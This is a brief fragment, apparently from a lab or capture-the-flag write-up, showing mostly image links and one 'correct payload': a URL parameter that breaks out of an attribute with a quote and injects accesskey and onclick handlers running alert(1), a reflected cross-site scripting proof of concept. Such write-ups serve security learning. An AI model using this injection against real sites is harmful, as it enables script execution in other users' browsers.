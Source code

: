 ![img](media/52608d063766926d815a87368195efd6.png)

A correct payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/post?postId=1&a=b'accesskey='X'onclick='alert(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/df9c217459be143754ef02274ea04697.png)

![img](media/5f6ea8531ee8d4fcb65a1f1071d6d4ec.png)
